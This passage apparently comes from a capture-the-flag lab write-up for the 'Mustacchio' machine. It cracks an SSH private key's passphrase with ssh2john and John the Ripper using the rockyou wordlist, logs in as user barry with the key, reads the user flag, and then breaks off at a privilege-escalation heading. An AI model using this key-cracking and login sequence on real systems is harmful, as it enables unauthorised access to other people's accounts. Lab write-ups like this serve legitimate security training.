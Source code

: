 I use `John` to crack the passphrase for the SSH key :

```
└─# ssh2john id_rsa > id_rsa.hash  
└─# john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
urieljames       (id_rsa)     
1g 0:00:00:01 DONE (2023-06-04 17:02) 0.7874g/s 2339Kp/s 2339Kc/s 2339KC/s urieljr.k..urielito1000
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

I can now connect to `ssh` with the `ssh key` :
```
└─# ssh -i id_rsa barry@mustacchio.thm 
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-210-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

34 packages can be updated.
16 of these updates are security updates.
To see these additional updates run: apt list --upgradable



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

barry@mustacchio:~$ 
```

Let's get the user.txt flag :
```
barry@mustacchio:~$ ls
user.txt
barry@mustacchio:~$ cat user.txt 
**********************
```

## Privilege escalation
After having obtained a user access, I now try to get a root access in order to recover the root flag. <br>
